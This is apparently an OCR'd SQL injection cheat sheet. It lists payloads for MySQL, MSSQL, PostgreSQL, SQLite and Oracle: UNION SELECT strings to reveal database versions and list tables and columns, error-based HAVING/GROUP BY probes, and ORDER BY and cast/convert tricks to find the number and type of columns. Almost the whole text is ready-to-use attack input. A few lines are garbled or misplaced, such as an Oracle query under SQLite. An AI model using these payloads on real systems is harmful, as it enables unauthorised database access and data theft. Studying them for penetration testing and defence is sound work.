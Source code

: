 Input through URL parameter to reveal DB version
        ?id=1 UNION SELECT null, @@version -- -

MSSQL:  SELECT @@version;
        INSERT INTO members(id, user, pass) VALUES(1,''+SUBSTRING(@@version,1,10) ,10)

PostgreSQL: SELECT version();
            UNION SELECT NULL, version(), NULL

SQLite: sqlite_version()
        UNION SELECT NULL, sqlite_version(),NULL;
        SELECT version FROM PRODUCT_COMPONENT_VERSION WHERE product LIKE 'Oracle Database%';

Oracle: SELECT * FROM v$version;
        Input through URL parameter to reveal DB version
        ?id=1 UNION SELECT banner, null FROM v$version -- -

***Enumerate Database structure***
MySQL:
        UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = 'target_db' -- -

user-defined tables
        SELECT table_name FROM information_schema.tables WHERE table_schema = 'databasename'

column names:
        SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'tablename'

Oracle:
        UNION SELECT table_name, null FROM all_tables -- -

PostgreSQL:
        UNION SELECT table_name, null FROM information_schema.tables WHERE table _schema = 'public' -- -

user-defined tables:
        SELECT \* FROM all\_tables WHERE OWNER = 'DATABASE\_NAME' column names:
        SELECT \* FROM all\_col\_comments WHERE TABLE\_NAME = 'TABLE'

***Error-based ways to discover column information***
**1. Finding column names using HAVING and GROUP BY (S)**
  ' HAVING 1=1 -- (triggers error 1)
  ' GROUP BY table.columnfromerror1 HAVING 1=1 -- (triggers error 2)
  ' GROUP BY table.columnfromerror1, columnfromerror2 HAVING 1=1 -- (triggers error 3)
  ' GROUP BY table.columnfromerror1, columnfromerror2, columnfromerror(n) HAVING 1=1 --
Once no more errors being shown you are done

**2. Testing for column number (MS0+)**
  ?id=1 ORDER BY 1 --
  ?id=1 ORDER BY 2 --
  ?id=1 ORDER BY 3 --
  ?id=1 ORDER BY n --
  If an error shows, you've found the number of columns

**3. Ways of finding the column type**
  ' UNION SELECT sum(columntofind) from users-- (S)
If no error is displaying it means the column is numeric

**You can also use cast() or convert() in a similar way, for example:**
  SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL--
